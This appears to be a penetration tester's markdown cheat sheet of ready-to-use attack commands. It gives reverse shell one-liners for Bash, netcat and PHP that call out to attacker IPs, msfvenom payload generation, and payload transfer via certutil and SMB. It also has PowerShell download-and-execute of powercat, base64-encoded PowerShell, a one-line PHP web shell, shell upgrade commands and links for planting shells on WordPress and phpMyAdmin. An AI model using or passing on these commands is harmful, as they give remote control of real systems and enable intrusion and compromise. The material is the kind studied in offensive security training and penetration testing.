 ```yaml
---
sticker: lucide//sticky-note
---
```

### Reverse Shells
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python
https://www.revshells.com/
##### Bash
```
bash -c "bash -i >& /dev/tcp/192.168.45.201/8003 0>&1"

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

/bin/bash -l > /dev/tcp/192.168.45.161/1443 0<&1 2>&1
```

##### NC
```
busybox nc 10.10.10.10 9001 -e powershell/sh
nc.exe 10.10.10.10 9001 -e powershell/sh
nc 10.10.10.10 9001 -e powershell/sh
```

##### PHP
```
php -r '\$sock=fsockopen(\"attacker-host\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```

##### LSP
```
https://github.com/the-emmons/lsp-reverse-shell/blob/main/rev.lsp
```
### Windows
#####  CMD
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o myshell.exe

#Transfer reverse shell to your users home directory.
certutil -urlcache -split -f http://192.168.45.178:80/myshell.exe C:\\users\\<user>\\myshell.exe"

#Execute
C:\\users\\<user>\\myshell.exe
```

##### SMB Share
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o myshell.exe

#Setup smb server.
impacket-smbserver -smb2support kali $PWD

#Transfer and execute shell.
//<kali-ip>/kali/myshell.exe
```

##### Netcat

```
nc.exe <listening_host> <listening_port> -e cmd
```

##### Powershell

```
#Using powercat.
Method 1. IEX (New-Object System.Net.Webclient).DownloadString("http://<ip>/powercat.ps1");powercat -c <host_ip> -p <port> -e powershell
Method 2. powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"
```
##### Base64 Encode

```
#PowerShell Script
$Text = "YOUR_PAYLOAD_HERE"

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText

#PowerShell Command
powershell -enc "<base64>"
powershell -a "-enc <base64>"
```

### Web Shells
##### ASP / ASPX

```
https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/asp
```
### PHP

```
<?php system($_GET['cmd']); ?>
```

#### Upgrades
#### Linux
```
#interactive upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'

#interactive upgrade
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'

#enables clear
export TERM=xterm
```

#### Windows
```
#If you are finding basic commands can't be recognised.
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;

```


##### CMS SPECIFIC
```
PHPMYADMIN: SQL query: https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f?ref=benheater.com
WORDPRESS: https://secnhack.in/upload-shell-on-wordpress-site/
```